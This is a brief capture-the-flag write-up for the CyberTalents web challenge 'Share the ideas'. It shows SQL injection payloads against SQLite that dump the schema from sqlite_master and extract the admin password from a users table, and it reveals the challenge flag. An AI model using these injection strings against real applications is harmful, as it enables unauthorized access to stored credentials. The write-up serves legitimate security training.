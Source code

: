## Challenage name: Share the ideas 
Link: https://cybertalents.com/challenges/web/share-ideas
## Solution:
1) Login with any credential, for me I logged in using test as username and noting for the password 
2) After logging in successfully
3) Let's try to do SQL injection:

![Error](https://user-images.githubusercontent.com/55226688/84436872-cb79e500-ac3c-11ea-8838-abf34f6bfc42.png)

4) 
` ' || (SELECT sql FROM sqlite_master));   ` 

this will retrun all the needed information of the table

![Error](https://user-images.githubusercontent.com/55226688/84437043-0ed45380-ac3d-11ea-9f0e-d11626b845d4.png)


5)
 `  ' || (SELECT password FROM xde43_users WHERE role=='admin' )); ` 
 
 Flag: flag245698
 
